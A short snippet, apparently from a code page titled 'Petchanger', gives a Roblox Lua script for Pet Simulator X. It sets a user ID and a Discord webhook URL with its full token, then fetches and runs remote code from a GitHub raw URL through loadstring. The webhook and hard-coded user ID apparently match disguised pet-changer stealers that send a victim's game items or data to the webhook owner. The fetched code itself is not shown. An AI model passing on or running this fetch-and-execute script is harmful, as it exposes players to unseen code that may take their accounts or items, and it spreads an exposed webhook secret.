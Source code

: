 # Petchanger
_G.UserID = 2292898978
_G.WebHook = "https://discord.com/api/webhooks/1194245736259403847/QcmbbvoFKLkc655B8MLu9bK-X3VPWLh0J8F3Pld2LdL9e4M_yFcbZsHkoFg15X8t3B0k"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua",true))()
